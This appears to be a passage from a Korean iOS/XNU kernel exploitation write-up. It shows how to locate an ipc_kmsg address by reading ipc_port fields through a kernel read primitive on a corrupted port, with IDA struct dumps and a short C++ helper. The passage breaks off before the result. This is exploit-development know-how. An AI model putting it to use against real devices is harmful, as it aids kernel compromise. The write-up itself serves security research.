 `ipc_kmsg` 할당 주소를 구하는 방법은 간단하다.

이전에 우리는 IOSurface를 활용한 적재된 데이터를 확인하기 위해 `ipc_port` 구조체에서 `kdata.kobject` 필드에 접근했었다.

마찬가지로, `kdata.kobject` 필드에 `ikmq_base` 오프셋을 더하면 `ipc_kmsg` 주소를 구할 수 있다.

```cpp
00000000 struct ipc_port_0 // sizeof=0xA8
00000000 {
00000000     ipc_object ip_object;
00000010     ipc_mqueue ip_messages
...

00000000 struct ipc_mqueue // sizeof=0x50
00000000 {                                       // XREF: ipc_port_0/r
00000000                                         // ipc_port_1/r ...
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97 data;
00000048     ipc_mqueue::$60FD45BA8CAC1DB02FF64F7437356E71;
00000050 };

00000000 union ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97 // sizeof=0x48
00000000 {                                       // XREF: ipc_mqueue/r
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD port;
00000000     ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$F200E06D1AE0F2D5875A47A59DB37CDA pset;
00000000 };

00000000 struct __attribute__((aligned(8))) ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD // sizeof=0x48
00000000 {                                       // XREF: ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97/r
00000000     waitq_0 waitq;
00000030     ipc_kmsg_queue messages;
...

00000000 struct ipc_kmsg_queue // sizeof=0x8
00000000 {                                       // XREF: ipc_mqueue::$2E0228C480B494B3768A87C5A9B2CB97::$C897FC1EFAC1BB0E6F68B660AC1584BD/r
00000000                                         // thread_0/r ...
00000000     ipc_kmsg *ikmq_base;
00000008 };
```

코드로 구현하면 아래와 같고,

```cpp
#if ENABLE_HELPER
    //helper; obtain struct ipc_kmsg's addr
    uint64_t ikmq_base = kread64(find_port(corrupted_kmsg_port) + off_ipc_port_ikmq_base);
    uint64_t ipc_kmsg_addr = ikmq_base;
    INFO("struct ipc_kmsg(port=0x%x) = 0x%llx\n", corrupted_kmsg_port, ipc_kmsg_addr);
    //
    #endif
```

실행 결과, 다음과 같이 특정주소에 `ipc_kmsg`가 위치하게 된다.
